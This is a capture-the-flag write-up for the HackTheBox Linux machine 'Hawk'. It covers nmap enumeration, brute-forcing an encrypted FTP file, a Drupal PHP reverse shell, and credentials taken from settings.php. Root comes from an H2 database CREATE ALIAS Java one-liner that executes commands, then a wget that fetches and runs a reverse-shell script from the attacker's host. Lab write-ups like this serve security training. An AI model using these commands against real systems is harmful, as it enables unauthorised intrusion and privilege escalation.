







---
search:
  exclude: true
---
# Hawk Writeup

## Introduction :

Hawk is a Medium linux box released back in July 2018.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
      λ nihilist [ 10.10.14.24/23 ] [~]
      → nmap -F 10.10.10.102
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-19 21:56 GMT
      Nmap scan report for 10.10.10.102
      Host is up (0.076s latency).
      Not shown: 97 closed ports
      PORT   STATE SERVICE
      21/tcp open  ftp
      22/tcp open  ssh
      80/tcp open  http
    
      Nmap done: 1 IP address (1 host up) scanned in 0.54 seconds
    
      λ nihilist [ 10.10.14.24/23 ] [~]
      → nmap -sCV -p21,22,80 10.10.10.102
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-19 21:56 GMT
      Nmap scan report for 10.10.10.102
      Host is up (0.082s latency).
    
      PORT   STATE SERVICE VERSION
      21/tcp open  ftp     vsftpd 3.0.3
      | ftp-anon: Anonymous FTP login allowed (FTP code 230)
      |_drwxr-xr-x    2 ftp      ftp          4096 Jun 16  2018 messages
      | ftp-syst:
      |   STAT:
      | FTP server status:
      |      Connected to ::ffff:10.10.14.24
      |      Logged in as ftp
      |      TYPE: ASCII
      |      No session bandwidth limit
      |      Session timeout in seconds is 300
      |      Control connection is plain text
      |      Data connections will be plain text
      |      At session startup, client count was 4
      |      vsFTPd 3.0.3 - secure, fast, stable
      |_End of status
      22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
      | ssh-hostkey:
      |   2048 e4:0c:cb:c5:a5:91:78:ea:54:96:af:4d:03:e4:fc:88 (RSA)
      |   256 95:cb:f8:c7:35:5e:af:a9:44:8b:17:59:4d:db:5a:df (ECDSA)
      |_  256 4a:0b:2e:f7:1d:99:bc:c7:d3:0b:91:53:b9:3b:e2:79 (ED25519)
      80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
      |_http-generator: Drupal 7 (http://drupal.org)
      | http-robots.txt: 36 disallowed entries (15 shown)
      | /includes/ /misc/ /modules/ /profiles/ /scripts/
      | /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
      | /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt
      |_/LICENSE.txt /MAINTAINERS.txt
      |_http-server-header: Apache/2.4.29 (Ubuntu)
      |_http-title: Welcome to 192.168.56.103 | 192.168.56.103
      Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
    
      Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
      Nmap done: 1 IP address (1 host up) scanned in 10.51 seconds
    

## **Part 2 : Getting User Access**

Our nmap scan picked up port 80 running http with drupal 7 just like the box [Bastard](2.md) except that this time we are dealing with a linux box. Although our nmap scan also picked up port 21 ftp with anonymous login, so let's check it out first:
    
    
      λ nihilist [ 10.10.14.24/23 ] [~]
      → ftp 10.10.10.102
      Connected to 10.10.10.102.
      220 (vsFTPd 3.0.3)
      Name (10.10.10.102:nihilist): anonymous
      230 Login successful.
      Remote system type is UNIX.
      Using binary mode to transfer files.
      ftp> ls
      200 PORT command successful. Consider using PASV.
      150 Here comes the directory listing.
      drwxr-xr-x    2 ftp      ftp          4096 Jun 16  2018 messages
      226 Directory send OK.
      ftp> cd messages
      250 Directory successfully changed.
      ftp> ls
      200 PORT command successful. Consider using PASV.
      150 Here comes the directory listing.
      226 Directory send OK.
      ftp> ls -lash
      200 PORT command successful. Consider using PASV.
      150 Here comes the directory listing.
      drwxr-xr-x    2 ftp      ftp          4096 Jun 16  2018 .
      drwxr-xr-x    3 ftp      ftp          4096 Jun 16  2018 ..
      -rw-r--r--    1 ftp      ftp           240 Jun 16  2018 .drupal.txt.enc
      226 Directory send OK.
      ftp> get .drupal.txt.enc
      local: .drupal.txt.enc remote: .drupal.txt.enc
      200 PORT command successful. Consider using PASV.
      150 Opening BINARY mode data connection for .drupal.txt.enc (240 bytes).
      226 Transfer complete.
      240 bytes received in 0.00 secs (165.9880 kB/s)
      ftp> exit
      221 Goodbye.
    
      λ nihilist [ 10.10.14.24/23 ] [~]
      → cd _HTB/Hawk && mv ../../.drupal.txt.enc .
    
      λ nihilist [ 10.10.14.24/23 ] [~/_HTB/Hawk]
      → file .drupal.txt.enc
      .drupal.txt.enc: openssl enc'd data with salted password, base64 encoded
    

So we have a base64 encoded openssl encrypted string of data with salted password so let's first de-base64 it : 
    
    
      λ nihilist [ 10.10.14.24/23 ] [~/_HTB/Hawk]
      → cat .drupal.txt.enc| base64 -d > drupal.txt.enc
    
      λ nihilist [ 10.10.14.24/23 ] [~/_HTB/Hawk]
      → file drupal.txt.enc
      drupal.txt.enc: openssl enc'd data with salted password
    

Now from there we can bruteforce this openssl salted file with a tool called "bruteforce-salted-openssl" 
    
    
      λ nihilist [ 10.10.14.24/23 ] [~/_HTB/Hawk]
      → bruteforce-salted-openssl -t 50 -f /usr/share/wordlists/rockyou.txt -d sha256 drupal.txt.enc -1
      Warning: using dictionary mode, ignoring options -b, -e, -l, -m and -s.
    
      Tried passwords: 0
      Tried passwords per second: -nan
      Last tried password: purple
    
      Password candidate: friends
    

The result was instant , the password is friends, now using this we can decode the file, note that bruteforce-salted-openssl uses aec-256-cbc by default so we also know that it is the algorithm used to encrypt the file, so let's use it to decrypt it using the friends password : 
    
    
      λ nihilist [ 10.10.14.24/23 ] [~/_HTB/Hawk]
      → openssl aes-256-cbc -d -in drupal.txt.enc -out drupal.txt
      enter aes-256-cbc decryption password:
      *** WARNING : deprecated key derivation used.
      Using -iter or -pbkdf2 would be better.
    
      λ nihilist [ 10.10.14.24/23 ] [~/_HTB/Hawk]
      → ls
      drupal.txt  drupal.txt.enc
    
      λ nihilist [ 10.10.14.24/23 ] [~/_HTB/Hawk]
      → cat drupal.txt
      Daniel,
    
      Following the password for the portal:
    
      PencilKeyboardScanner123
    
      Please let us know when the portal is ready.
    
      Kind Regards,
    
      IT department
    

And we have another password to use ! PencilKeyboardScanner123, now let's investigate the http port our nmap scan picked up earlier :

And we are logged in as admin ! now let's enable php: 

 

And once we saved the configuration at the bottom, we head into Content > Add Content > Basic Page: 

Scroll down, clicking preview with a netcat listener on our port 9001: 

And we get a low privilege shell as www-data ! now let's see what we can do from there: 
    
    
      www-data@hawk:/var/www/html$ uname -a
      uname -a
      Linux hawk 4.15.0-23-generic #25-Ubuntu SMP Wed May 23 18:02:16 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
      www-data@hawk:/var/www/html$ ls -la
      ls -la
      total 296
      drwxr-xr-x  9 root     root       4096 Jun 11  2018 .
      drwxr-xr-x  3 root     root       4096 Jun 11  2018 ..
      -rw-r--r--  1 www-data www-data   6104 Jun 11  2018 .htaccess
      -rwxr-x---  1 www-data www-data 111859 Jun 11  2018 CHANGELOG.txt
      -rwxr-x---  1 www-data www-data   1481 Jun 11  2018 COPYRIGHT.txt
      -rwxr-x---  1 www-data www-data   1717 Jun 11  2018 INSTALL.mysql.txt
      -rwxr-x---  1 www-data www-data   1874 Jun 11  2018 INSTALL.pgsql.txt
      -rwxr-x---  1 www-data www-data   1298 Jun 11  2018 INSTALL.sqlite.txt
      -rwxr-x---  1 www-data www-data  17995 Jun 11  2018 INSTALL.txt
      -rwxr-x---  1 www-data www-data  18092 Jun 11  2018 LICENSE.txt
      -rwxr-x---  1 www-data www-data   8710 Jun 11  2018 MAINTAINERS.txt
      -rwxr-x---  1 www-data www-data   5382 Jun 11  2018 README.txt
      -rwxr-x---  1 www-data www-data  10123 Jun 11  2018 UPGRADE.txt
      -rwxr-x---  1 www-data www-data   6604 Jun 11  2018 authorize.php
      -rwxr-x---  1 www-data www-data    720 Jun 11  2018 cron.php
      drwxr-x---  4 www-data www-data   4096 Jun 11  2018 includes
      -rwxr-x---  1 www-data www-data    529 Jun 11  2018 index.php
      -rwxr-x---  1 www-data www-data    703 Jun 11  2018 install.php
      drwxr-x---  4 www-data www-data   4096 Jun 11  2018 misc
      drwxr-x--- 42 www-data www-data   4096 Jun 11  2018 modules
      drwxr-x---  5 www-data www-data   4096 Jun 11  2018 profiles
      -rwxr-x---  1 www-data www-data   2189 Jun 11  2018 robots.txt
      drwxr-x---  2 www-data www-data   4096 Jun 11  2018 scripts
      drwxr-x---  4 www-data www-data   4096 Jun 11  2018 sites
      drwxr-x---  7 www-data www-data   4096 Jun 11  2018 themes
      -rwxr-x---  1 www-data www-data  19986 Jun 11  2018 update.php
      -rwxr-x---  1 www-data www-data   2200 Jun 11  2018 web.config
      -rwxr-x---  1 www-data www-data    417 Jun 11  2018 xmlrpc.php
    
      www-data@hawk:/var/www/html/sites/default$ ls -lash /home
      ls -lash /home
      total 12K
      4.0K drwxr-xr-x  3 root   root   4.0K Jun 16  2018 .
      4.0K drwxr-xr-x 23 root   root   4.0K Jun 12  2018 ..
      4.0K drwxr-xr-x  5 daniel daniel 4.0K Jul  1  2018 daniel
    

Here we see that the only user on this box is daniel. which we can also verify by printing out /etc/passwd to which we see that he can use python3, which will be handy to upgrade our shell to a TTY shell: 
    
    
      www-data@hawk:/var/www/html/sites/default$ cat /etc/passwd | grep daniel
      cat /etc/passwd | grep daniel
      daniel:x:1002:1005::/home/daniel:/usr/bin/python3
    

Poking around with out low privilege shell we stumble upon /var/www/html/sites/default/settings.php which contains cleartext passwords : 
    
    
      www-data@hawk:/var/www/html$ cd sites
      cd sites
      www-data@hawk:/var/www/html/sites$ ls
      ls
      README.txt
      all
      default
      example.sites.php
      www-data@hawk:/var/www/html/sites$ cd default
      cd default
      www-data@hawk:/var/www/html/sites/default$ ls -lash
      ls -lash
      total 68K
      4.0K dr-xr-x--- 3 www-data www-data 4.0K Jun 11  2018 .
      4.0K drwxr-x--- 4 www-data www-data 4.0K Jun 11  2018 ..
       28K -rwxr-x--- 1 www-data www-data  26K Jun 11  2018 default.settings.php
      4.0K drwxrwxr-x 3 www-data www-data 4.0K Jun 11  2018 files
       28K -r--r--r-- 1 www-data www-data  26K Jun 11  2018 settings.php
      www-data@hawk:/var/www/html/sites/default$ cat settings.php | grep pasword
      cat settings.php | grep pasword
      www-data@hawk:/var/www/html/sites/default$ egrep password settings.php
      egrep password settings.php
       *   'password' => 'password',
       * username, password, host, and database name.
       *   'password' => 'password',
       *   'password' => 'password',
       *     'password' => 'password',
       *     'password' => 'password',
            'password' => 'drupal4hawk',
       * by using the username and password variables. The proxy_user_agent variable
      # $conf['proxy_password'] = '';
    

And we have another password "drupal4hawk" ! Now let's ssh as daniel on the box and grab his flag : 
    
    
      λ nihilist [ 10.10.14.24/23 ] [~]
      → ssh daniel@10.10.10.102
      The authenticity of host '10.10.10.102 (10.10.10.102)' can't be established.
      ECDSA key fingerprint is SHA256:ApgoV2acarN6BgPWgNLAt+2Hx2sO1pDqmhmetmW6pvk.
      Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
      Warning: Permanently added '10.10.10.102' (ECDSA) to the list of known hosts.
      daniel@10.10.10.102's password:
      Welcome to Ubuntu 18.04 LTS (GNU/Linux 4.15.0-23-generic x86_64)
    
       * Documentation:  https://help.ubuntu.com
       * Management:     https://landscape.canonical.com
       * Support:        https://ubuntu.com/advantage
    
        System information as of Fri Mar 20 07:40:46 UTC 2020
    
        System load:  0.0               Processes:            109
        Usage of /:   54.1% of 9.78GB   Users logged in:      0
        Memory usage: 47%               IP address for ens33: 10.10.10.102
        Swap usage:   0%
    
    
       * Canonical Livepatch is available for installation.
         - Reduce system reboots and improve kernel security. Activate at:
           https://ubuntu.com/livepatch
    
      55 packages can be updated.
      3 updates are security updates.
    
    
      Last login: Sun Jul  1 13:46:16 2018 from dead:beef:2::1004
      Python 3.6.5 (default, Apr  1 2018, 05:46:30)
      [GCC 7.3.0] on linux
      Type "help", "copyright", "credits" or "license" for more information.
      >>>
    

Now as we predicted earlier, we are not dropped into a bash shell but in a python3 shell! python has libraries to spawn a tty shell for us which is fairly easy as you can see : 
    
    
      Last login: Sun Jul  1 13:46:16 2018 from dead:beef:2::1004
      Python 3.6.5 (default, Apr  1 2018, 05:46:30)
      [GCC 7.3.0] on linux
      Type "help", "copyright", "credits" or "license" for more information.
      >>> import pty
      >>> pty.spawn("/bin/bash")
      daniel@hawk:~$ ls
      user.txt
      daniel@hawk:~$ cat user.txt
      d5XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

And that's it ! We have been able to print out the user flag. 

## **Part 3 : Getting Root Access**

Now in order to privesc to the root user we need to enumerate the box further, starting with particular proceses ran as root:
    
    
      daniel@hawk:~$ ps auxw | grep java
      root        807  0.0  0.0   4628   800 ?        Ss   Mar19   0:00 /bin/sh -c /usr/bin/java -jar /opt/h2/bin/h2-1.4.196.jar
      root        808  0.0  5.1 2329256 50836 ?       Sl   Mar19   0:31 /usr/bin/java -jar /opt/h2/bin/h2-1.4.196.jar
      daniel    17511  0.0  0.1  13136  1064 pts/1    S+   07:43   0:00 grep java
    

That's a H2 database running which our nmap scan didn't pick up earlier. so let's run another, more complete nmap scan to pick up which port the H2 database is running on : 
    
    
      λ nihilist [ 10.10.14.24/23 ] [~]
      → nmap -F 10.10.10.102 --top-ports 10000
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-20 07:45 GMT
      Nmap scan report for 10.10.10.102
      Host is up (0.078s latency).
      Not shown: 8314 closed ports
      PORT     STATE SERVICE
      21/tcp   open  ftp
      22/tcp   open  ssh
      80/tcp   open  http
      5435/tcp open  sceanics
      8082/tcp open  blackice-alerts
      9092/tcp open  XmlIpcRegSvc
    
      Nmap done: 1 IP address (1 host up) scanned in 12.54 seconds
    

Let's investigate our 3 new ports 9092 8082 and 5435 : 
    
    
      λ nihilist [ 10.10.14.24/23 ] [~]
      → nmap -sCV -p5435,8082,9092 10.10.10.102
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-20 07:46 GMT
      Nmap scan report for 10.10.10.102
      Host is up (0.078s latency).
    
      PORT     STATE SERVICE       VERSION
      5435/tcp open  tcpwrapped
      8082/tcp open  http          H2 database http console
      |_http-title: H2 Console
      9092/tcp open  XmlIpcRegSvc?
      1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
      SF-Port9092-TCP:V=7.80%I=7%D=3/20%Time=5E7474DD%P=x86_64-pc-linux-gnu%r(NU
      SF:LL,45E
    

And here we see that the H2 database is running on port 8082 However we see that remote connections to it are disabled so we bypass that by creating a ssh tunnel from it's remote port 8080 to our local port 8082 : 

No need to login we can just change the JDBC URL to /root to gain access to the console : 

And from there we can abuse the H2 DB ALIAS to privesc to the root user with this java one liner : 
    
    
    CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A"); return s.hasNext() ? s.next() : "";  }$$;
    

` 

Now when we run the command "id" we see that we get command execution as root! 

Now from there we just need to get a reverse shell as the root user, and to do so we ready our reverse shell one liner with python's SimpleHTTPServer module on port 8999, along with our netcat listener on port 9001, But we need to check if wget is on the box : 

And wget is on the box ! but if we type in 'which curl' we see that curl is also there on the box, so we could potentially print out the contents of our exploit, and pipe it into bash to get our reverse shell, but that's not the case here, because we cannot use each one of our special characters such as && or | or > therefore we have to execute each command in the following order : 
    
    
      call SHELLEXEC('wget http://10.10.14.24:8999/nihilist.sh')
      call SHELLEXEC('chmod +x nihilist.sh')
      call SHELLEXEC('bash nihilist.sh')
    

` 

And that's it ! We have been able to get a reverse shell as root and print the flag !

## **Conclusion**

Here we can see the progress graph :

